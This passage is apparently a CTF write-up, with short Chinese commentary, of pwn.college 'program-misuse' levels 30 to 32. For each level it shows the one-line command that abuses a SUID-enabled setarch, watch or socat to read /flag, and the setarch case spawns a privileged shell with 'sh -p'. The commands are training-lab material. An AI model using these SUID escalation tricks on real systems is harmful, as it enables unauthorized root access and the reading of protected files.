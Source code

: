 ```
hacker@program-misuse-level-30:~$ sh file.sh
Welcome to ./babysuid_level30!

This challenge is part of a series of programs that
will enable you to read flags by making them execute other commands.

I just set the SUID bit on /usr/bin/setarch.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level30) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/setarch!
```
`setarch`工具: 改变架构的工具
```
hacker@program-misuse-level-30:~$ setarch i386 /bin/sh -p
# cat /flag
pwn.college{08T2qH86iHnjvFJb-5bmU9C5kJt.0lM3EDL2QjMyMzW}
#
```
它这个说默认是/bin/sh，可以切i386，在man里写着呢

## level31 Enables you to read flags by making them execute other commands!

```
hacker@program-misuse-level-31:~$ sh file.sh
Welcome to ./babysuid_level31!

This challenge is part of a series of programs that
will enable you to read flags by making them execute other commands.

I just set the SUID bit on /usr/bin/watch.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level31) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/watch!
```
`watch`工具：执行命令然后全屏输出
```
hacker@program-misuse-level-31:~$ watch -x cat /flag
### 使用后会输出到全屏
pwn.college{UMl5SVp_YjbBiTIgIIiAi7i_5fg.01M3EDL2QjMyMzW}
```
很神奇的工具，然而发现tldr不怎么全，只有常见命令，到CTF的环境之中就不太适用了

## level32 Enables you to read flags by making them execute other commands!

```
hacker@program-misuse-level-32:~$ sh file.sh
Welcome to ./babysuid_level32!

This challenge is part of a series of programs that
will enable you to read flags by making them execute other commands.

I just set the SUID bit on /usr/bin/socat.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level32) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/socat!
```
`socat`：是个和socket有关的工具。
```
hacker@program-misuse-level-32:~$ socat -u "file:/flag" -
```
